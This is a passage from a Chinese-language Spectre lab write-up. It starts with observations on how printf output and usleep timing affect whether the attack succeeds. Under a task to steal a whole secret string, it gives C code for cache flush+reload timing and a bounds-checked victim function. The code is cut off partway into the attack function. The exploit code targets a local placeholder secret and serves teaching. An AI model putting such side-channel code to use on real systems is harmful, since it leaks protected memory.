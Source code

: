 将`printf("*****\n");`改为`printf("*");`或`printf("**");`或...或`printf("******");`，攻击也无法完成：

![image-20220119134951604](spectre.assets/image-20220119134951604.png)

进一步测试发现，`printf("*\n");`和`printf("**\n");`一般不能完成攻击，`printf("****\n");`和`printf("***\n");`有时成功，有时不能。

还是有待进一步研究。

3. 修改usleep的时长为5、20、500，均能实现攻击。usleep时长与成功率的关系有待进一步研究。

## Task 6: Steal the Entire Secret String

只需将攻击过程循环18次即可。

```c
#include <stdio.h>
#include <stdint.h>
#include <unistd.h>	// for usleep()
#include <emmintrin.h>
#include <x86intrin.h>
#define CACHE_HIT_THRESHOLD (120)
#define DELTA 1024
unsigned int bound_lower = 0;
unsigned int bound_upper = 9;
uint8_t buffer[10] = {0, 1, 2, 3, 4, 5, 6, 7, 8, 9};
char *secret = "Some Secret Value";
uint8_t array[256 * 4096];

static int scores[256];
void reloadSideChannelImproved()
{
	int junk = 0;
	register uint64_t time1, time2;
	volatile uint8_t *addr;
	int i;
	for (i = 0; i < 256; i++) {
		addr = &array[i * 4096 + DELTA];
		time1 = __rdtscp(&junk);
		junk = *addr;
		time2 = __rdtscp(&junk) - time1;
		if (time2 <= CACHE_HIT_THRESHOLD)
			scores[i]++; /* if cache hit, add 1 for this value */
	}
}
void flushSideChannel()
{
	int i;
// Write to array to bring it to RAM to prevent Copy-on-write
	for (i = 0; i < 256; i++) array[i * 4096 + DELTA] = 1;
// Flush the values of the array from cache
	for (i = 0; i < 256; i++) _mm_clflush(&array[i * 4096 + DELTA]);
}
// Sandbox Function
uint8_t restrictedAccess(size_t x)
{
	if (x <= bound_upper && x >= bound_lower) {
		return buffer[x];
	} else { return 0; }
}
void spectreAttack(size_t index_beyond)
{
	int i;
```